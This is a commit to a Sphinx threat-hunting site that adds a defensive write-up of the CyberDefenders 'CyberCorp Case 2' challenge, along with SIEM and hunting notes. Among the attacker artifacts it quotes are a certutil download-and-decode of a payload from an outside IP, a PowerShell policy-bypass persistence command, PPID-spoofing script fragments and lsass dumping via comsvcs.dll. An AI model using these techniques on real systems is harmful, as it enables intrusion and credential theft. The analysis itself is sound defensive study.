

Before and after one commit to tymyrddin/blue-siem, a Sphinx documentation site: the page built from source/index.rst, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Refactoring

````diff
--- /dev/null
+++ b/source/docs/cd/README.md
@@ -0,0 +1,13 @@
+# Introduction
+
+## What?
+
+Threat hunting
+
+## Why?
+
+Gaining practical experience in threat hunting.
+
+## How?
+
+* [CyberCorp Case 2](cybercorp2.md)
--- /dev/null
+++ b/source/docs/cd/cybercorp2.md
@@ -0,0 +1,245 @@
+# CyberCorp Case 2
+
+The [CyberCorp Case 2 challenge](https://cyberdefenders.org/blueteam-ctf-challenges/75) was created by [Vadim Khrykov and his team](https://www.linkedin.com/in/vadim-khrykov-39a227102/), and is based on a real-world attack.
+
+## Scenario
+
+After a cybersecurity incident, CyberCorp's management decided to purchase and deploy EDR (Endpoint Detection and Response) solution. EDR agents were installed on all workstations and servers and forwarded telemetry to a centralized Threat Hunting platform.
+
+The company has also hired a security blue team of highly qualified analysts to build a threat detection process using the Threat Hunting approach. You will have to try on the role of a threat hunter, who decided to verify the hypothesis about one of the attacker's persistence techniques.
+
+Unfortunately, the hypothesis was confirmed, and a persistence technique was discovered on one host, which eventually became the starting point of the investigation.
+
+By analyzing the EDR telemetry in the Threat Hunting platform, you will have to understand how the attacker compromised the network and what he managed to do with the obtained access.
+
+## Resources
+
+* [Threat Hunting. Why might you need it](https://cyberpolygon.com/materials/threat-hunting-why-might-you-need-it/)
+* [Threat Hunting in action](https://cyberpolygon.com/materials/threat-hunting-in-action/)
+* [Hunting for advanced Tactics, Techniques and Procedures (TTPs)](https://cyberpolygon.com/materials/hunting-for-advanced-tactics-techniques-and-procedures-ttps/)
+
+## Tools
+
+* [Kibana](https://www.elastic.co/kibana/)
+
+## Setting up
+
+* Download the VM, [watch the vid](https://www.youtube.com/watch?v=PczISJGPvKg), import, change network settings, start the VM.
+* Open Firefox, and click on the Kibana bookmark.
+* Update time range to last 3 years.
+
+![Kibana start](../../_static/images/cybercorp2-1.png)
+
+## Questions
+
+***Q1 The Threat Hunting process usually starts with the analyst making a hypothesis about a possible compromise vector or techniques used by an attacker. In this scenario, your initial hypothesis is as follows: "The attacker used the WMI subscription mechanism to obtain persistence within the infrastructure". Verify this hypothesis and find the name of the WMI Event Consumer used by the attacker to maintain his foothold. Sample answer: Consumer***
+
+Hypothesis: [Event Triggered Execution: Windows Management Instrumentation Event Subscription](https://attack.mitre.org/techniques/T1546/003/) (
+[Atomic Red Team ID: T1546.003](https://github.com/redcanaryco/atomic-red-team/blob/36d49de4c8b00bf36054294b4a1fcbab3917d7c5/atomics/T1546.003/T1546.003.md)).
+
+![wm_namespace](../../_static/images/cybercorp2-2.png)
+
+* Time of Event: Jun 21, 2021 @ 23:25:50.000
+* Host: DESKTOP-BZ202CP.cybercorp.com
+* User: CYBERCORP\john.goldberg
+* Process ID: 5772
+* CommandLineEventConsumer.Name: PowerControl Consumer
+* Related event ID's (IoC's): Event ID 19: WmiEvent (WmiEventFilter activity detected); Event ID 20: WmiEvent (WmiEventConsumer activity detected), and Event ID 21: WmiEvent (WmiEventConsumerToFilter activity).
+
+***Q2 In the previous step, you looked for traces of the attacker's persistence in the compromised system through a WMI subscription mechanism. Now find the process that installed the WMI subscription. Answer the question by specifying the PID of that process and the name of its executable file, separated by a comma without spaces. Sample answer: 1200,program.exe.***
+
+Look for a process just prior to the WMI subscription.
+
+![proc_file_name](../../_static/images/cybercorp2-3.png)
+
+***Q3 "The process described in the previous question was used to open a file extracted from the archive that user received by email. Specify a SHA256 hash of the file extracted and opened from the archive. Sample answer: e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855"***
+
+The opened file was extracted from an archive received by email:
+
+```text
+proc_id:5772 AND event_type: FileOpen AND (*zip* OR *rar*)
+```
+
+Gives:
+
+```text
+Process 'c:\program files (x86)\microsoft office\office16\outlook.exe' created file 'c:\users\john.goldberg\appdata\local\microsoft\windows\inetcache\content.outlook\dfn3sfep\report.zip'
+```
+
+The archive `report.zip` was opened via email using the program `outlook.exe`.
+
+```text
+'c:\windows\explorer.exe' ➔ 'c:\program files (x86)\microsoft office\office16\winword.exe' ➔ 'c:\users\john.goldberg\appdata\local\temp\temp1_report.zip\market forecast emea.docx'`.
+```
+
+`Market forecaste emea.docx` was opened via `winword.exe` and the temporary folder for it is `temp1_report.zip`. The hash for this `.docx` file is the answer:
+
+![sha265 hash](../../_static/images/cybercorp2-4.png)
+
+***Q4 The file mentioned in question 3, is not malicious in and of itself, but when it is opened, another file is downloaded from the Internet that already contains the malicious code. Answer the question by specifying the address, from which this file was downloaded, and the SHA256 hash of the downloaded file, separated by commas without spaces. Sample answer: 192.168.0.1,e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855***
+
+The [enrich processor](https://www.elastic.co/guide/en/elasticsearch/reference/current/enrich-processor.html) can enrich documents with data from another index. The `enrich.ioa.*` set of fields indicate suspiciousness. For example, setting`enrich.ioa.max_severity` to `exists`, the results show events that are `high`, `medium`, or `low`. Setting the `enrich.ioa.max_confidence: exists` filter, the level of confidence that a particular event is malicious is indicated.
+
+To look for a sequence of events **Network Connection -> File Created (file downloaded) -> File Open**:
+
+```text
+proc_id:5772 AND (event_type: NetworkConnection OR event_type: "FileCreate" OR event_type: "FileOpen")
+```
+
+![sequence](../../_static/images/cybercorp2-6.png)
+
+These could be artifacts of a remote `dotm` template injection attack.
+
+![sha265 hash](../../_static/images/cybercorp2-5.png)
+
+`fontstyles[1].dotm` is a malicious file downloaded from `188.135.15.49`. This IP address is listed as [malicious/malware on VirusTotal](https://www.virustotal.com/gui/url/da463d5198689aaaff26efa1ecb04025f2146848230cce4bb27d749939373ac8/details).
+
+***Q5 The malicious code from the file, mentioned in question 4, directly installed a WMI subscription, which we started our hunting with, and also downloaded several files from the Internet to the compromised host. For file downloading, the attacker used a tricky technique that gave him the opportunity to hide the real process, which initiated the corresponding network activity. Specify the SHA256 hash of the operating system component whose functionality was used by the attacker to download files from the Internet. Sample answer: e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855***
+
+The "Hunting for advanced Tactics, Techniques and Procedures (TTPs)" article refers to a technique in which Internet Explorer COM objects are used in scripts or macros to interact with Internet resources. Parent child process dechaining takes place which may help evade some EDRs. This technique appears to have been used here: `winword.exe` loads `ieproxy.dll` followed by DNS request(s). The hash of the `ieproxy.dll` is the answer.
+
+***Q6 Specify the domain name of the resource from which the files mentioned in question 5 were supposedly downloaded as a result of malicious code execution. Sample answer: sub.domain.com***
+
+Checking for `event_type = DNSReq`, adding the field `enrich.domaininfo.dns_rname.domain` and applying the `enrich.ioa.rules` filter, shows DNS requests to GitHub via `iexplorer.exe`.
+
+***Q7 The first file downloaded (as a result of executing the code in question 5) contained encoded executable code (PE), which after downloading was recorded in the registry. Specify an MD5 hash of the original representation of that code (PE). Sample answer: d41d8cd98f00b204e9800998ecf8427e***
+
+Using `event_type: RegistryValueSet` and expanding the first entry gives a base64 encoded string marked `win_gzipped_data_as_reg_value_data` and `reg_value_data` stores the registry data. Using CyberChef with the recipes **From Base64 -> Gunzip -> MD5** gives the hash of the PE.
+
+***Q8 The second file downloaded (as a result of code execution, which we talked about in question 5) was a script, that was set up to autostart via WMI Subscription. Specify the SHA256 hash of this script. Sample answer: e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855***
+
+Looking at events after the WMI subscription event for malicious script downloads with the `enrich.ioa.max_confidence: exist` filter: At `23:26:09`, the file `MSO1033.ps1` was downloaded and stored in `C:\Users\john.goldberg\AppData\Roaming\Microsoft\Office\`, after which a WMI subscription was set (`event_type = WMIConsumerCreate`). The goal of this WMI object is to run the command:
+
+```text
+powershell.exe -noP -ep bypass iex -c "('C:\Users\john.goldberg\AppData\Roaming\Microsoft\Office\MSO1033.ps1')"
+```
+
+The hash of `MSO1033.ps1` is the answer.
+
+***Q9 The script, mentioned in question 8, spawned one of the legitimate system processes and injected into its memory a malicious code that was read and decoded from the registry (this code was mentioned in question 7). This malicious code migrated through a chain of code injections to the address space of another legitimate process, where it continued to run without further migration.***
+
+***For this answer, provide the next data, separated by a comma without spaces:***
+* ***PID of the initial legitimate system process, which was spawned by the script and where this script launched in-memory execution of malicious code;***
+* ***PID of the target process, to which malicious code migrated from the initial process and in the context of which attacker performed different post-exploitation activity Sample answer: 1234,9876***
+
+```text
+(\*file_name:"mso1033.ps1" OR \*_file_path:"mso1033.ps1" OR \*cmdline:"mso1033.ps1") AND event_type:ScriptExecution AND enrich.ioa.max_severity:*
+```
+
+The script was split into 7 events and categorised as `win_empire_functions_and_cmdlets`, `win_possible_reflective_pe_injection_functions`
+
+1. The value of the registry key was decoded with base64 and gzip, and the PE bytes were stored in a byte array `$PEBytes`.
+2. Invocations of Win32 APIs are done via the `Add-type` cmdlet.
+3. The last part of the script contains a reference to a variable named `$spawnTo`:
+
+```text
+# spawning of the legitimate dwm.exe process
+$spawnTo = "c:\Windows\System32\dwm.exe"
+```
+
+4. [T1134.004](https://attack.mitre.org/techniques/T1134/004/): Adversaries may spoof the parent process identifier (PPID) of a new process to evade process-monitoring defenses or to elevate privileges. A handle to `winlogon.exe` is obtained:
+
+```text
+# ppid = winlogon PID
+[int]$ppid = Get-Process -Name "winlogon" | Select -expand ID
+...
+$hSpoofParent = [Kernel32]::OpenProcess(0x1fffff, 0, $ppid)
+```
+
+5. `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` is `0x00020000`:
+
+```text
+$result1 = [Kernel32]::UpdateProcThreadAttribute($sInfoEx.lpAttributeList,
+                                              0,
+                                              0x00020000,
+                                              $lpValue,
+                                              [IntPtr]::Size,
+                                              [IntPtr]::Zero,
+                                              [IntPtr]::Zero)
+```
+
+6. `dwm.exe` is spawned with winlogon as the spoofed parent process:
+
+```text
+$result1 = [Kernel32]::CreateProcess($spawnTo,     # call to CreateProcess
+                                  $cmdline,
+                                  [ref]$SecAttr,
+                                  [ref]$SecAttr,
+                                  0,
+                                  0x08080004,
+                                  [IntPtr]::Zero,
+                                  $currdir,
+                                  [ref] $sInfoEx,
+                                  [ref] $pInfo)
+```
+
+Updating the query to:
+
+```text
+(*winlogon.exe* OR *dwm.exe*) AND event_type: ProcessCreate
+```
+
+Put the PID of the spawned process `dwm.exe` first.
+
+***Q10 The malicious code run by the script is a Reverse Shell. Identify the IP address and port number of its command center. Sample answer: 192.168.0.1:123***
+
+```text
+(*winlogon.exe* OR *dwm.exe*) AND event_type: NetworkConnection
+```
+
+The network connection comes from yet another process, `rundll32.exe`. Another layer of obfuscation.
+
+***Q11 As a result of running a malicious code, which we talked about in questions 9 and 10, the attacker got a shell on the compromised host. Using this access, the attacker downloaded the Active Directory collection utility to the host in an encoded form. Specify a comma-separated, non-spaced link where the encoded version of the utility was downloaded and a SHA256 hash of the decoded version that was directly run by the attacker on the compromised host. Sample answer: http://domain.com/file,e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855***
+
+Looking for `NetworkConnection AND FileCreate` events after the initial `rundll` network connection took place. Limiting results:
+
+```text
+(event_type : "NetworkConnection" or event_type : "filecreate") and not proc_p_file_path : "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe"
+```
+
+1. At `23:46:10.000`, `certutil` (which has a history of being used as a lolbin) makes a network connection, downloads a file `chrome_installer.log2`, and creates a file by the name of `svchost.exe` and .
+
+At 23:46:10.000:
+
+```text
+certutil  -urlcache -f http://188.135.15.49/chrome_installer.log2 C:\Windows\TEMP\chrome_installer.log2:data
+```
+
+At 23:46:17.000:
+
+```text
+certutil  -decode C:\Windows\TEMP\chrome_installer.log2:data C:\Windows\TEMP\svchost.exe
+```
+
+2. Apparently, bloodhound was run.
+3. `chrome_installer.log2` is a base64 encoded form of Bloodhound, after which `certutil` was used again to decode and save it to disk as `svchost.exe`.
+
+Filtering for `C:\Windows\TEMP\svchost.exe` gives its SHA256, the answer.
+
+***Q12 During the post-exploitation process, the attacker used one of the standard Windows utilities to create a memory dump of a sensitive system process that contains credentials of active users in the system. Specify the name of the executable file of the utility used and the name of the memory dump file created, separated by a comma without spaces. Sample answer: program.exe,file.ext***
+
+```text
+event_type: FileCreate OR event_type: FileOpen
+```
+
+`rundll32.exe` is used to invoke the exported MiniDump function from `C:\windows\system32\comsvcs.dll` and dump `lsass`. See [LOLBAS](https://lolbas-project.github.io/lolbas/Libraries/comsvcs/).
+
+***Q13 Presumably, the attacker extracted the password of one of the privileged accounts from the memory dump we discussed in the previous question and used it to run a malicious code on one of the domain controllers. What account are we talking about? Specify its username and password as the answer in login:password format. Sample answer: kate:qwerty***
+
+To execute code on the DC there must be some kind of lateral movement. Looking for suspicious events after the `lsass` dumping:
+
+```text
+event_type: "NetworkConnection" and dev_fqdn: "DC01-CYBERCORP.cybercorp.com"
+```
+
+***Q14 A compromised user account is a member of two Built-in privileged groups on the Domain Controller. The first group is the Administrators. Find the second group. Provide the SID of this group as an answer. Sample answer: S-1-5-32-545***
+
+```text
+dev_fqdn: DC01-CYBERCORP.cybercorp.com AND event_type: AccountGroupList AND *inventory*
+```
+
+***Q15 As a result of malicious code execution on the domain controller using a compromised account, the attacker got a reverse shell on that host. This shell used a previously not seen IP address as the command center. Specify its address as the answer. Sample answer: 192.168.0.1***
+
+```text
+dev_fqdn: DC01-CYBERCORP.cybercorp.com AND (proc_id:4460 OR proc_p_id:4460 OR proc_c_id:4460 OR proc_tgt_id:4460)
+```
--- /dev/null
+++ b/source/docs/notes/README.md
@@ -0,0 +1,14 @@
+# Introduction
+
+## What?
+
+SIEM and threat hunting notes.
+
+## Why?
+
+Worth keeping/remembering.
+
+## How?
+
+* [Security information and event management](siem.md)
+* [Threat hunting](siem.md)
--- /dev/null
+++ b/source/docs/notes/hunting.md
@@ -0,0 +1,25 @@
+# Threat hunting
+
+Threat hunting is complementary to the standard process of incident detection, response, and remediation, and is the practice of proactively searching for cyber threats that may be hidden in a network. Cyber threat hunting digs deep to find malicious actors in an environment that have slipped past the initial endpoint security defences.
+
+In case of a so-called Advanced Persistent Threat (APT), after getting in, an adversary can remain hidden in a network for months, while [quietly exfiltrating data](https://exfil.tymyrddin.dev/), looking for confidential material, or obtaining login credentials that will allow later movement in the environment. Once an adversary is successful in [evading detection](https://evasion.tymyrddin.dev/) and an attack has penetrated an organisation’s defences, many organisations lack the advanced detection capabilities needed to stop the APT.
+
+This is why threat hunting is an essential component of any defence strategy, and becoming increasingly important as organisations seek to stay ahead of the latest cyber threats and rapidly respond to any potential attacks.
+
+## Proactive threat hunting
+
+Threat hunters assume that adversaries are already in the system, and look for unusual behaviour that may indicate the presence of malicious activity.
+
+1. Hypothesis-driven investigations are often triggered by a new threat that has been identified through a large pool of crowdsourced attack data, giving insights into an adversaries' latest tactics, techniques, and procedures (TTP). Threat hunters will look for specific behaviours in their local environment.
+2. Investigations based on known Indicators of Compromise (IoC) or Indicators of Attack (IoA) use tactical threat intelligence to catalog  known IOCs and IOAs associated with new threats as triggers for threat hunters use to discover hidden attacks or malicious activity.
+3. Advanced analytics and machine learning investigations sift through massive amounts of information to detect irregularities that may suggest potential malicious activity. These become hunting leads for analysts to identify new threats.
+
+In all cases, [threat intelligence resources](https://cti.tymyrddin.dev/) are combined with advanced security technology.
+
+## Threat hunting steps
+
+1. A trigger points threat hunters to a specific system or area of the network for further investigation when detection tools identify unusual actions that may indicate malicious activity.
+2. During the investigation phase, threat hunters use technology such as [Endpoint Detection and Response (EDR)](https://edr.tymyrddin.dev/) to take a deep dive into potential malicious compromise of a system.
+3. The resolution phase involves communicating relevant malicious activity intelligence to operations and security teams for a response to the incident and mitigation of threats.
+
+Threat hunters also analyse collected data to determine trends in an environment, eliminate current vulnerabilities and make predictions to enhance security in the future.
--- /dev/null
+++ b/source/docs/notes/siem.md
@@ -0,0 +1,13 @@
+# Security information and event management
+
+Security information and event management (SIEM) is an approach to security management that combines security information management (SIM) and security event management (SEM) functions into one security management system.
+
+It is a software solution that aggregates and analyses activity from many different resources across an IT infrastructure. SIEM collects security data from network devices, servers, domain controllers, etc., and search queries can be done to look for specific answers from ingested logs.
+
+## Tools and architecture
+
+Many SIEM tools exist, Kibana, Splunk, Elastic SIEM, Datadog, QRadar, UnderDefense, etc., and architecture varies. In general, if a tool has a SIEM engine, it contains three components:
+
+* A data collector forwarding selected audit logs from a host (agent based or host based log streaming into index and aggregation point)
+* An aggregation point for parsing, correlation, and data normalisation.
+* A search node used for visualisation, queries, reports, and alerts (actual analysis takes place on a search node)
--- a/source/index.rst
+++ b/source/index.rst
@@ -1,8 +1,7 @@
 Security information and event management
 =====================================================================
 
-Security information and event management (SIEM) and search queries to look for specific answers from ingested logs.
-
+These are notes and challenges on security information and event management (SIEM) and threat hunting. Threat hunting is complementary to the standard process of incident detection, response, and remediation, and is the practice of proactively searching for cyber threats that may be hidden in a network.
 
 .. image:: _static/images/in-progress.png
   :alt: Forever in progress ...
@@ -15,11 +14,21 @@ Security information and event management (SIEM) and search queries to look for
    :caption: Testlab
 
    Security information and event management tools <https://testlab.tymyrddin.dev/docs/siem/README>
+   Threat intelligence tools <https://testlab.tymyrddin.dev/docs/cti/README>
+   Threat hunting tools <https://testlab.tymyrddin.dev/docs/hunting/README>
 
 ----
 
-TryHackMe rooms
--------------------------------------
+.. toctree::
+   :maxdepth: 1
+   :includehidden:
+   :caption: Notes
+
+   docs/notes/README.md
+   docs/notes/siem.md
+   docs/notes/hunting.md
+
+----
 
 .. toctree::
    :glob:
@@ -37,17 +46,32 @@ TryHackMe rooms
    docs/incident/weaponise.md
    docs/incident/deliver.md
 
+----
+
 .. toctree::
    :glob:
    :maxdepth: 1
    :includehidden:
-   :caption: Challenges
+   :caption: CyberDefenders challenges
+
+   docs/cd/README.md
+   docs/cd/cybercorp2.md
+
+----
+
+.. toctree::
+   :glob:
+   :maxdepth: 1
+   :includehidden:
+   :caption: TryHackMe challenges
 
    docs/challenges/README.md
    docs/challenges/vpn.md
    docs/challenges/itsybitsy.md
    docs/challenges/investigation.md
    docs/challenges/benign.md
+
+----
 
 .. toctree::
    :glob:
````
Also changed, not shown: source/_static/images/cybercorp2-1.png (added), source/_static/images/cybercorp2-2.png (added), source/_static/images/cybercorp2-3.png (added), source/_static/images/cybercorp2-4.png (added), source/_static/images/cybercorp2-5.png (added), source/_static/images/cybercorp2-6.png (added), source/_static/images/site/background.png.
